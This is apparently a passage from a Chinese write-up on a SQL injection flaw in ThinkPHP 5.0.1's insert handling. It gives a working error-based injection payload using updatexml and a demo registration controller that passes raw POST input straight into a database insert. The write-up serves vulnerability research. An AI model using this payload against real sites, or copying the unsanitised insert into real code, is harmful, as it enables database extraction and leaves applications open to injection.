 

### 根据parseData方法得到payload必须满足的条件：

```
输入值为数组，
payload格式为：arr[0]=inc&arr[1]=exp&arr[2]=数字
```

因为是insert注入，所以采用报错注入的方式，构造payload为：

```
arr[0]=inc&arr[1]=updatexml(0x7e,user(),0x7e)&arr[2]=1
```



此时需要找一个payload输入点，insert注册功能处就有。



### 简单写一个注册demo:

tp5.0.1/application/index/controller/Register.php

```php
<?php
namespace app\index\controller;
use app\index\model\Users;
use think\View;
use think\Controller;


class Register extends Controller{
    public function index(){
        $view = new View();
        return $view->fetch('index');
    }
    
    public function register(){
        //实例化User
        $user = new Users();
        //接收前端表单提交的数据

        $user->username = input('post.username');
        $user->sex = input('post.sex');
        $user->password = input('post.password');

        $result=array(

            "username"=>$user->username,
            "sex"=>$user->sex,
            "password"=>$user->password
        );

        db('users')->insert($result);
        return 'Update success';

    }


}
```
